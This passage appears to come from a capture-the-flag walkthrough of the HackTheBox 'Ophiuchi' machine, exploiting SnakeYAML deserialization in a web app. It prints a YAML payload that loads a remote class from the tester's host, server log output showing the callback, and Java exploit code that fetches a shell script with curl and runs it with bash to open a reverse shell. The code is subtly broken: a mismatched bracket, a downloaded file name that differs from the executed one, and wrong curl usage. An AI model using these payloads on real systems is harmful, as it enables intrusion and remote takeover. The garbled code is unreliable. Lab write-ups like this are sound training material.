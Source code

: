 after entering a valid YAML data, the application says that 'the feature is disabled due to security reasons.', so tried to break the application and entered wrong YAML data and got `500 Internal Server Error` error
![](/assets/ophiuchi/images/Pasted image 20210517121943.png)

### Finding Exploit
and we got some useful information that the application is utilizing `snakeyaml`, so let's check if we have any known exploits or vulnerability. looks like we do have a `RCE` in `Snakeyaml`. read [more](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858).

### PoC
For testing this exploit, started a Python HTTP server on port `80` and then used this payload.
![](/assets/ophiuchi/images/Pasted image 20210517123048.png)
and here we got the hit on our server.
![](/assets/ophiuchi/images/Pasted image 20210517123153.png)

#### Payload
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.35/"]
  )
]
```

#### Python HTTP Server
```bash
[elliot@archlinux]  ophiuchi git:(main) ✗ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [17/May/2021 12:28:39] code 404, message File not found
10.10.10.227 - - [17/May/2021 12:28:39] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
```

## Gaining Access

we found a payload for this vulnerability on github, get it [here](https://github.com/artsploit/yaml-payload)

from this we can get code execution, so now we will create a `shell.sh` file which will be executed by the `shell.jar` file and we will have our shell.
So git clone the repository and then make some changes to the main `.java` file in here `yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java`, here's the changes

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl http://10.10.14.35/shell.sh -O /tmp/shell.sh");
            Runtime.getRuntime().exec("bash /tmp/revshell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
